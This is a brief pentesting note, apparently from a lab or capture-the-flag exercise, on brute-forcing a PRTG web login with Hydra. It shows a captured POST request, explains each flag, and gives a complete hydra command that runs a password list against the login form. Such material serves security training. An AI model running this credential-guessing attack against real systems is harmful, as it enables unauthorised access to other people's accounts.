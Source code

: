 # Hydra

### http brute

The request in burp suite looks like:

```
POST /public/checklogin.htm HTTP/1.1
Host: 10.10.10.152
Content-Length: 39
Cache-Control: max-age=0
Origin: http://10.10.10.152
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.4.1366182311.1585918308; _gid=GA1.4.333900560.1586085370
Connection: close

loginurl=&username=admin&password=admin
```

`-l prtgadmin`  
use login prtgadmin  
`-P /usr/share/john/password.lst`  
use passwords from /usr/share/john/password.lst  
`http-post-form`  
for use POST requests  
`"/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed"`  
**/public/checklogin.htm** - relate to POST /public/checklogin.htm HTTP/1.1  
**:loginurl=&username=^USER^&password=^PASS^** - fill username with username. In our case prtgadmin. Fill password with passwords from password list we specified  
**:Your login has failed** - ignore responce if there such sting in it. If there are no such string in response - consider, that password was found  

```sh
hydra -v -l prtgadmin -P /usr/share/john/password.lst 10.10.10.152 http-post-form "/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed" -t 5 -I
```

